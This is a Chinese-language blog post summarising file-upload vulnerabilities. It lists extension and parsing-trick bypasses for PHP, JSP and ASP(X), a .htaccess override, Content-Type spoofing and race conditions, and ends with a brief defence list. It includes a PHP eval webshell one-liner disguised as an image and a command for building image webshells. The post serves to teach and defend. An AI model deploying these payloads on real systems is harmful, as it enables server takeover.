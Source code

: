 ```yaml
---
layout: mypost
title: 文件上传总结
categories: [Web]
extMath: true
---
```


# 文件上传总结

## 说明

服务器对用户上传的文件没进行严格校验导致被上传恶意的文件达到服务器控制权限丢失的结果。

## 绕过

### 前端校验

这个直接抓包改后缀即可

### 后端校验（黑名单）

1. PHP
    1. 大小写双写：shell.PHp，shell.pphphp
    2. 特殊扩展名：`shell.php5`, `shell.phtml`, `shell.phps` ，`shell.phar` ，`shell.pht` ，`shell.inc（配置错误时可能存在）`
    3. Windows下：
        
        后缀后加点或者点空格或者`shell.php::$DATA` 
        
    4. **`.htaccess`** 
        
        操作：
        
        ```
        **文件1：**
        .htaccess
        **内容：**
        AddType application/x-httpd-php .jpg
        **文件2**
        shell.jpg
        ```
        
        上传一个自定义的 `.htaccess` 文件，**重写Apache解析规则**，强制将 `.jpg` 文件当作 PHP 解析。
        
2. JSP
    1. 大小写双写
    2. 特殊扩展：`shell.jspx`, `shell.jsw`, `shell.jsv`, `shell.jspf`
    3. Windows：`shell.jsp.`, `shell.jsp`, `shell.jsp::$DATA`
    4. 目录遍历：../shell.jsp
    5. **`web.xml` 攻击：**类似于 `.htaccess`，但 Java EE 中 `web.xml` 通常不允许用户上传覆盖。极少数配置错误情况下可能。
3. ASP(X)
    1. ASP经典：`shell.asa`, `shell.cer`, `shell.cdx`
    2. ASP.NET：`shell.aspx`, `shell.ashx`, `shell.asmx`, `shell.ascx`
    3. Windows：`shell.asp.`, `shell.asp`, `shell.asp::$DATA`
    4. IIS解析漏洞：`shell.asp;.jpg`，`/xx.asp/xx.jpg`，`shell.jpg/xxx.php`

### 后端校验（白名单）

配合各种中间件的解析漏洞

### 文件头校验

1. **Content-Type 校验绕过：**抓包将 `Content-Type: application/php` 改为合法的图像类型，如 `image/jpeg`, `image/png`。
2. **文件内容/文件头校验绕过**
    
    制作图片马（有时检验包体长度，建议一般使用正常的小图片去做而不是直接编辑webshell）
    
    例如：
    
    - `GIF89a; <?php @eval($_POST['a']);?>`
    - `‰PNG... <?php @eval($_POST['a']);?>`
    
    如果存在解析漏洞的话可以使用以下命令制作图片文件后缀的webshell
    
    ```bash
    copy 1.jpg/b+2.php 3.jpg
    ```
    

### 条件竞争

- **场景**：服务器先保存文件，再进行安全扫描（AV）或内容检查，不通过再删除。
- **方法**：利用这个时间差，疯狂并发访问上传的文件，从而在它被删除前执行。

## 防御

1. 严格的白名单后缀和MIME 类型
2. 文件重命名
3. 上传文件设置不可执行
4. 内容检测
5. 使用隔离存储
6. 及时更新系统版本
7. 使用WAF